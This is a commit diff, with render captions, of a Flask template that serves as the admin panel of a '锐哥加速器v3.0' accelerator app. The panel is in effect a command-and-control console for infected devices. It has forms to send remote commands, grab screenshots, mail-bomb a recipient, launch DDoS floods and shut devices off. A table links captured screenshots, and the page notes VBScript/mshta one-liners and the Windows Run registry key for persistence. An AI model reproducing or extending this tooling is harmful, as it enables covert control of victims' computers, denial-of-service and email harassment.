

Before and after one commit to yxzlwz/RUI, a Flask app: template templates/index.html in a window 1280 px wide. Shown: the whole page at 87% size. Before the commit the page ends 511 px from the top, so only its background shows below. Run offline with Flask 2, Linux system fonts and the light colour scheme; the template is opened without the code that fills it: most values are stand-ins (such as "Sample title", 1, 10 or a date in 2020); one stand-in notice (Sample message) is shown; some libraries are stand-ins or nearby versions.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -4,47 +4,117 @@
     <meta charset="UTF-8">
     <title>锐哥加速器v3.0管理后台</title>
     <meta name="viewport" content="width=device-width" initial-scale="1"/>
+    <link rel="stylesheet" href="https://cdn.staticfile.org/twitter-bootstrap/4.3.1/css/bootstrap.min.css">
 </head>
+
 <body style="margin: 20px;">
+    {% for message in get_flashed_messages() %}
+        <div class="alert alert-info">
+            <button type="button" class="close" data-dismiss="alert" aria-hidden="true">
+                &times;
+            </button>
+            {{ message }}
+        </div>
+    {% endfor %}
     <h1>锐哥加速器v3.0管理后台</h1>
-    <p>当前在线设备数：{{ users|length }}</p>
-    <form action="/action" method="post">
-        <input name="command" placeholder="需要发送的远程命令"/>
-        <input type="submit" />
+    <br />
+    <h4>当前在线设备数：{{ users|length }}</h4>
+    <h4>最新版本：{{ version }}&emsp;&emsp;<a href="{{ download_address }}" target="_blank">下载地址</a></h4>
+    <br />
+    <form action="/action" method="post" class="form-inline">
+        <input name="command" placeholder="需要发送的远程命令" required class="form-control" />
+        <input name="send_to" placeholder="接受者" class="form-control" />
+        <input type="submit" class="btn btn-primary" value="发送命令" />
     </form>
     <br />
-    <form action="/screenshot" method="post">
-        <input type="submit" value="截图" />
+    <form action="/screenshot" method="post" class="form-inline">
+        <input type="submit" value="截图" class="btn btn-primary" />
     </form>
     <br />
-    <form action="/mail-attack" method="post">
-        <input name="times" placeholder="次数" required />
-        <input name="from-address" placeholder="发送者地址" required />
-        <input name="from-password" placeholder="发送者密码" required />
-        <input name="to-address" placeholder="收件人地址" required />
-        <input name="from-name" placeholder="发件姓名" />
-        <input name="title" placeholder="邮件标题" />
-        <input name="content" placeholder="邮件内容" />
-        <input type="submit" />
+    <form action="/mail-attack" method="post" class="form-inline">
+        <input name="times" placeholder="次数" class="form-control" required />
+        <input name="from-address" placeholder="发送者地址" class="form-control" required />
+        <input name="from-password" placeholder="发送者密码" class="form-control" required />
+        <input name="to-address" placeholder="收件人地址" class="form-control" required />
+        <input name="from-name" placeholder="发件姓名" class="form-control" />
+        <input name="title" placeholder="邮件标题" class="form-control" />
+        <input name="content" placeholder="邮件内容" class="form-control" />
+        <input type="submit" class="btn btn-primary" value="发送邮件轰炸" />
     </form>
     <br />
-    <form action="/ddos" method="post">
-        <input name="times" placeholder="次数" value="8080" required />
-        <input name="host" placeholder="地址" required />
-        <input name="page" placeholder="路径" value="/" required />
-        <input name="port" placeholder="端口" value="80" required />
-        <input type="submit" />
+    <form action="/ddos" method="post" class="form-inline">
+        <input name="times" placeholder="次数" value="8080" class="form-control" required />
+        <input name="host" placeholder="地址" class="form-control" required />
+        <input name="page" placeholder="路径" class="form-control" value="/" required />
+        <input name="port" placeholder="端口" class="form-control" value="80" required />
+        <input type="submit" class="btn btn-primary" value="发送DDOS" />
     </form>
+{#    <br />#}
+{#    <form action="/stop-once" method="post" class="form-inline">#}
+{#        <input name="name" placeholder="临时停止" class="form-control" />#}
+{#        <input type="submit" value="临时停止设备" class="btn btn-primary" />#}
+{#    </form>#}
+    <br />
+    <form action="/stop-forever" method="post" class="form-inline">
+        <input name="name" placeholder="永久停止" class="form-control" />
+        <input name="reopen" placeholder="重新开启" class="form-control" />
+        <input type="submit" value="永久停止/重新开启" class="btn btn-primary" />
+    </form>
+{#    <br />#}
+{#    <form action="/show-version" method="post" class="form-inline">#}
+{#        <input name="name" placeholder="展示版本" class="form-control" />#}
+{#        <input type="submit" value="显示版本信息" class="btn btn-primary" />#}
+{#    </form>#}
     <br />
     <br />
 
+    <br />
+
+    <table class="table table-hover">
+    <tbody>
+    <tr>
+        <th>设备名称</th>
+        <th>设备别名</th>
+        <th>最近连接</th>
+        <th>查看截图</th>
+        <th>临时下线</th>
+        <th>展示版本</th>
+    </tr>
+    {% for i in users.keys() %}
+    <tr>
+        <td>{{ i }}</td>
+        <td>{{ another_name[i] }}</td>
+        <td>{{ round(time() - users[i], 1) }}</td>
+        <td><a href="/static/{{ i }}.jpg" target="_blank">查看截图</a></td>
+        <td><a href="/stop-once?name={{ i }}" target="_top">临时下线</a></td>
+        <td><a href="/show-version?name={{ i }}" target="_top">展示版本</a></td>
+    </tr>
+    {% endfor %}
+    </tbody>
+    </table>
     <hr />
+    <form action="/set-another-name" method="post" class="form-inline">
+        <input name="name" placeholder="原始名称" class="form-control" />
+        <input name="another_name" placeholder="标记名称" class="form-control" />
+        <input type="submit" value="设置" class="btn btn-primary" />
+    </form>
+
+    <br />
 
     <br />
     <br />
     <h4>命令提示</h4>
     <p>mshta vbscript:msgbox("我是提示内容",64,"我是提示标题")(window.close)</p>
     <p>echo msgbox "我是提示内容",64,"我是提示标题">alert.vbs && start alert.vbs && ping -n 2 127.1>nul && del alert.vbs</p>
+    <h4>注册表</h4>
+    <p>Software\Microsoft\Windows\CurrentVersion\Run</p>
+
+    <br />
+    <br />
+    <br />
+
+    <h4 style="text-align: center;">数据无价，谨慎操作</h4>
+    <h4 style="text-align: center;">严守法规底线</h4>
 
 </body>
 </html>
```
